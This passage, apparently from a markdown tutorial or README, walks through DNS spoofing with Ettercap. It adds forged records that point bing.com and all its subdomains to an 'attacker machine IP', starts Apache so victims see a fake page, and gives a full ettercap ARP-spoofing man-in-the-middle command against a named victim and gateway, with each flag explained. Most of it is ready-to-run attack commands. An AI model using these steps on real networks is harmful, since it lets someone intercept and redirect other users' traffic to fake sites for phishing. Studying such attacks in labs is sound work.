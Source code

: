 1. Open the Ettercap DNS configuration file:

   ```bash
   leafpad /etc/ettercap/etter.dns
   ```

2. Scroll to the records section and add your spoofing rules:

   ```bash
   bing.com      A   192.168.2.5
   *.bing.com    A   192.168.2.5
   ```

   * `A` → DNS record type (maps domain → IP)
   * `192.168.2.5` → your **attacker machine IP**

3. You can use `*` as a wildcard for **all subdomains**.

4. Verify your attacker IP:

   ```bash
   ifconfig
   ```

---

## 🔹 Step 2: Start a Web Server

Since victims will be redirected to your computer:

```bash
service apache2 start
```

This ensures they see your fake webpage hosted locally.

---

## 🔹 Step 3: Run Ettercap with DNS Spoof Plugin

Example command:

```bash
ettercap -Tq -M arp:remote -i wlan0 -s -P dns_spoof //192.168.2.3// //192.168.2.1//
```

### Breakdown:

| Option            | Meaning                               |
| ----------------- | ------------------------------------- |
| `-T`              | Text mode                             |
| `-q`              | Quiet output                          |
| `-M arp:remote`   | ARP spoofing MITM method              |
| `-i wlan0`        | Wireless interface                    |
| `-s`              | Disable self-signed SSL cert creation |
| `-P dns_spoof`    | Activate DNS spoof plugin             |
| `//192.168.2.3//` | Victim target                         |
| `//192.168.2.1//` | Gateway (router)                      |
